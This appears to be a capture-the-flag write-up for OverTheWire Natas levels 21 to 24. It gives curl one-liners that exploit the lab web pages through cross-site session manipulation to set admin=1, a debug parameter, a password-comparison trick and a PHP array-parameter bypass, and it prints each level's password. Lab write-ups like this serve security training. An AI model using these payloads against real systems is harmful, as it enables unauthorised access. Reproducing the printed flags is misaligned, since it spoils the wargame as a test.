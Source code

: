**Exploitation:**

```
# establish (and save session's id) session on target site
$ SESSID=$(curl -s -H "Authorization: Basic `echo -n 'natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ' | base64`" http://natas21.natas.labs.overthewire.org/index.php -v 2>&1 | grep 'Set-Cookie' | cut -d';' -f1 | cut -d'=' -f2)
$ curl -s -H "Authorization: Basic `echo -n 'natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ' | base64`" http://natas21.natas.labs.overthewire.org/index.php -b "PHPSESSID=$SESSID"

# manipulate target's session via 3rd party site 
$ curl -s -H "Authorization: Basic `echo -n 'natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ' | base64`" http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=1 -d 'admin=1&submit=Update' -b "PHPSESSID=$SESSID"

$ curl -s -H "Authorization: Basic `echo -n 'natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ' | base64`" http://natas21.natas.labs.overthewire.org/index.php -b "PHPSESSID=$SESSID"
```

### natas22

**Target:**

```
http://natas22.natas.labs.overthewire.org/index.php
natas22
chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

```
$ curl -s -H "Authorization: Basic `echo -n 'natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ' | base64`" http://natas22.natas.labs.overthewire.org/index.php?revelio=1
```

### natas23

**Target:**

```
http://natas23.natas.labs.overthewire.org/index.php
natas23
D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

    $ curl -s -H "Authorization: Basic `echo -n 'natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE' | base64`" http://natas23.natas.labs.overthewire.org/index.php?passwd=11iloveyou

### natas24

**Target:**

```
Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

    $ curl -s -H "Authorization: Basic `echo -n 'natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg' | base64`" http://natas24.natas.labs.overthewire.org/index.php?passwd[]=
